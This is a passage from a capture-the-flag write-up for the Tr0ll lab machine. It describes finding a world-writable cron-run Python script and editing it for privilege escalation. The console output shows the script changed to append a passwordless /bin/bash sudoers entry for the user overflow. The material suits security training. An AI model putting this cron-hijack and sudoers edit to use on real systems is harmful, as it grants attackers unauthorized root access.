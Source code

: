 The server closes the connection every five minutes, kicking us out of the system.

When listing the writable files the **cronlog** and **cleaner.py** files look interesting.

```console
overflow@troll:/var/www/html$ find / -writable -type f 2>/dev/null | egrep -v 'proc|sys'
/srv/ftp/lol.pcap
/var/tmp/cleaner.py.swp
/var/www/html/sup3rs3cr3tdirlol/roflmao
/var/log/cronlog
/lib/log/cleaner.py
```

The **cleaner.py** script has read, write and execute permissions for all users, we see that it deletes the content inside the /tmp directory.

```console
overflow@troll:/$ ls -la /lib/log/cleaner.py
-rwxrwxrwx 1 root root 172 Jan 26 20:55 /lib/log/cleaner.py

overflow@troll:/var/www/html$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

The **cronlog** file shows that the **cleaner.py** script executes every two minutes.

```console
overflow@troll:/$ ls -la /var/log/cronlog
-rwxrwxrwx 1 root root 23 Aug 13  2014 /var/log/cronlog

overflow@troll:/var/www/html$ cat /var/log/cronlog
*/2 * * * * cleaner.py
overflow@troll:/var/www/html$
```


## Privilege Escalation
### Cron Job

We edit the **cleaner.py** script as follows to add to the user overflow to the sudoers file allowing him to execute /bin/bash without password.

```console
overflow@troll:/$ cat /lib/log/cleaner.py                                                                                                                           
#!/usr/bin/env python                                                                                                                                               
import os                                                                                                                                                           
import sys                                                                                                                                                          
try:                                                                                                                                                                
        os.system('rm -r /tmp/* ')                                                                                                                                  
        os.system('echo "overflow ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers')                                                                                   
except:                                                                                                                                                             
        sys.exit()
        
overflow@troll:/$
```
